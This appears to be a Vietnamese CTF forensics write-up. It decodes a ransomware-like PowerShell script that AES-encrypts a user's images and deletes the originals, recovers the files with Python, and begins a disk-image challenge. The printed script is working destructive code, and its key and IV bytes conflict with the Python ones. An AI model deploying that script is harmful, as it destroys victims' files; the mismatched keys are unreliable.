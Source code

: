 # _Powershell 101_ _(FORENSICS)_

![image](https://github.com/user-attachments/assets/79a16db8-500e-4172-b64c-2800d0111b0e)

## _Solution_

Tải về mình nhận được một tệp **pwsh101.zip**, giải nén ra thì có file **s.ps1** và 1 folder **Pictures** ( gồm tất cả các ảnh đã bị encrypt )

![image](https://github.com/user-attachments/assets/15b806ec-f56e-42fa-9406-5dbb36fea310)
![image](https://github.com/user-attachments/assets/2cb04a7d-9b6f-4464-aeb9-8b6b0d0f2cd9)

Mở file s.ps1 ra thì thấy có 1 đoạn base64

![image](https://github.com/user-attachments/assets/28592ee4-9b2d-43e9-99d6-991f4e554c7f)

Đem lên cyberchef decrypt thì nhận được 1 đoạn script PowerShell đã bị obfuscation

![image](https://github.com/user-attachments/assets/2ce95f93-57cf-4271-ae63-15897971abb3)

Đem đi làm đẹp lại cho dễ đọc hơn

```
# Define variables and types
Set-Variable -Name "gxqh" -Value ([Type]"System.Security.Cryptography.CipherMode")
$CipherPadding = [Type]"System.Security.Cryptography.PaddingMode"
$TextEncoding = [Type]"System.Text.Encoding"
Set-Variable -Name "lc3Zj8" -Value ([Type]"System.IO.Compression.CompressionMode")
Set-Variable -Name "arZ3" -Value ([Type]"System.Convert")
Set-Variable -Name "ulZ2" -Value ([Type]"System.IO.Path")
Set-Variable -Name "0Upe6" -Value ([Type]"System.Security.Principal.WindowsPrincipal")

# Encryption function
function Encrypt {
    param($InputFile, $OutputFile)

    # Create AES instance
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Mode = $gxqh::CBC
    $aes.Padding = $CipherPadding::Zeros
    $aes.BlockSize = 128
    $aes.KeySize = 256

    # Set IV and Key
    $aes.IV = [byte[]](0x3F, 0x45, 0x2B, 0x4D, 0x62, 0x51, 0x65, 0x53, 0x68, 0x56, 0x6D, 0x59, 0x71)
    $aes.Key = [byte[]](0x61, 0x42, 0x4A, 0x40, 0x4E, 0x63, 0x52, 0x66, 0x55, 0x6A, 0x58, 0x21, 0x41, 0x25)

    # Create encryptor and read plaintext
    $encryptor = $aes.CreateEncryptor()
    $plainBytes = Get-Content -Path $InputFile -Encoding Byte

    # Encrypt plaintext
    $encryptedText = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
    $aes.Dispose()

    # Convert encrypted text to Base64
    $base64String = $arZ3::ToBase64String($encryptedText)
    $base64Bytes = $TextEncoding::UTF8.GetBytes($base64String)

    # Compress Base64 string
    $memoryStream = New-Object System.IO.MemoryStream
    $deflateStream = New-Object System.IO.Compression.DeflateStream($memoryStream, $lc3Zj8::Compress, $true)
    $deflateStream.Write($base64Bytes, 0, $base64Bytes.Length)
    $deflateStream.Flush()
    $deflateStream.Close()

    # Convert compressed data to Base64 and write to output
    $compressedData = $arZ3::ToBase64String($memoryStream.ToArray())
    Write-Output $compressedData | Out-File -FilePath $OutputFile
}

# Find image files in a specific directory
$CurrentUser = $0Upe6::GetCurrent().Name.Substring(16)
$ImagesDirectory = "C:\Users\$CurrentUser\OneDrive\Pictures"
$ImageFiles = Get-ChildItem -Path $ImagesDirectory -Recurse |
    Where-Object { $_.Extension -in '.jpg', '.png', '.jpeg', '.bmp' } |
    Select-Object -ExpandProperty FullName

# Process each image file
foreach ($file in $ImageFiles) {
    $ParentDirectory = (Get-Item $file).Directory.FullName
    $FileNameWithoutExtension = $ulZ2::GetFileNameWithoutExtension($file)
    $OutputFile = Join-Path -Path $ParentDirectory -ChildPath "$FileNameWithoutExtension.enc"

    # Encrypt the file
    Encrypt -InputFile $file -OutputFile $OutputFile

    # Remove original file
    Remove-Item -Force $file
}
```
Một đoạn script tương đối dài, nhưng mục tiêu chung là 

```
1. Mã hóa tập tin ảnh:

- Script tìm kiếm tất cả các tập tin hình ảnh (với các phần mở rộng như .jpg, .png, .jpeg, .bmp) trong thư mục OneDrive\Pictures của người dùng hiện tại.

- Mỗi tập tin hình ảnh được mã hóa bằng AES (Advanced Encryption Standard) trong chế độ CBC (Cipher Block Chaining) với padding Zeros và kích thước khóa 256-bit.

- Sau khi mã hóa, nội dung được nén bằng DeflateStream, sau đó chuyển thành chuỗi Base64 và lưu vào một tập tin mới với phần mở rộng .enc.

2. Xóa tập tin gốc:

- Sau khi mã hóa và lưu trữ, tập tin gốc sẽ bị xóa khỏi hệ thống.

```

Nhiệm vụ của mình giờ là **decrypt** -> **lấy lại tệp ảnh gốc** -> **flag** (**Decrypt** sẽ là làm ngược lại các thao tác khi **Encrypt**)

Và đây là số lượng file đã bị **encrypt**

![image](https://github.com/user-attachments/assets/8ac50783-b30c-4894-81c5-d19f4667ef90)

Mình có viết 1 script Python để thực hiện điều này

```
import base64
import io
import zlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

def decrypt(input_file, output_file):

    # IV và Key từ PowerShell script
    iv = bytes([0x3f, 0x45, 0x28, 0x48, 0x2b, 0x4d, 0x62, 0x51, 0x65, 0x53, 0x68, 0x56, 0x6d, 0x59, 0x71, 0x33])
    key = bytes([0x43, 0x26, 0x46, 0x29, 0x4a, 0x40, 0x4e, 0x63, 0x52, 0x66, 0x55, 0x6a, 0x58, 0x6e, 0x32, 0x72, 0x34,
                 0x75, 0x37, 0x78, 0x21, 0x41, 0x25, 0x44, 0x2a, 0x47, 0x2d, 0x4b, 0x61, 0x50, 0x64, 0x53])

    # Đọc mã base64 nén từ tệp bị encrypt ở dạng nhị phân
    try:
      with open(input_file, 'rb') as f:
          compressed_data_b64 = f.read()
    except Exception as e:
      print(f"Error reading file: {e}")
      return
    
    # Giải mã dữ liệu base64 đã nén
    try:
        compressed_data = base64.b64decode(compressed_data_b64)
    except Exception as e:
        print(f"Error during initial base64 decoding: {e}")
        return

    # Giải nén data bằng zlib
    try:
        decompressed_data = zlib.decompress(compressed_data, wbits=-zlib.MAX_WBITS)
    except Exception as e:
        print(f"Error during decompression: {e}")
        return
    
    # Giải mã chuỗi base64
    try:
        base64_string = decompressed_data.decode('utf-8')
        encrypted_bytes = base64.b64decode(base64_string)
    except Exception as e:
        print(f"Error during secondary base64 decoding: {e}")
        return


    # Khởi tạo mật mã AES
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # Giải mã và xóa padding(\x00)
    try:
        decrypted_bytes = cipher.decrypt(encrypted_bytes)
        # Remove padding 
        decrypted_bytes = decrypted_bytes.rstrip(b'\x00') 
    except ValueError as e:
        print(f"Error during decryption (possible padding error): {e}")
        return

    # Lưu data decrypt vào file mới
    with open(output_file, 'wb') as outfile:
        outfile.write(decrypted_bytes)

if __name__ == '__main__':
    # Example usage:
    encrypted_file = "E:\\Python\\gundam.enc"  # File đầu vào bị mã hóa
    decrypted_file = "1.txt" # File gốc

    decrypt(encrypted_file, decrypted_file)
    print(f"Decrypted data written to: {decrypted_file}")
```
Đoạn scrypt trên sẽ thực hiện

```
1. Giải mã Base64.

2. Giải nén dữ liệu (dùng zlib).

3. Giải mã AES.

4. Ghi kết quả vào tệp tin đích.
```
Mình sẽ thực hiện lần lượt với từng file bằng cách thêm file .enc vào hàm này

```
encrypted_file = "E:\\Python\\Important.enc" 
```
Và đã có kết quả ở file **Important.enc**

![3](https://github.com/user-attachments/assets/43586728-f106-40dc-9300-fe38f3079069)

Thêm format KCSC và có được flag

```
Flag: KCSC{S0m3t1m3_R3co\_/ery_1s_EasieR_Th@n_y0u_Thought}
```


# _HDSD_ _(FORENSICS)_

![image](https://github.com/user-attachments/assets/5da2ad17-c163-4e64-998c-8e8023e4855d)

## _Solution_

Truy cập gg drive, mình nhận được một tệp .ad1

Với cảnh báo của author, mình cho vô máy ảo và dùng **FTK imager** để phân tích

![image](https://github.com/user-attachments/assets/7369af86-4001-4cbd-9972-b010237db52f)

Mình sẽ kiểm tra các thư mục thường xuyên làm việc như **Download, Desktop, Documents**

Tại **Download**, mình tìm thấy một số file trong đó có file **Voucher_hoc_bong_chuyen_auto_pass_mon.txt.cucked** nhưng với khá lạ khả năng cao là đã bị encrypt

![image](https://github.com/user-attachments/assets/c6c7a113-ef19-426f-8779-b2b850b8269f)

Sau một hồi ngồi mò khá lâu, thì mình tìm thấy một file **.tmp** trong thư mục ***users/SERVER/AppData/Local/Temp***

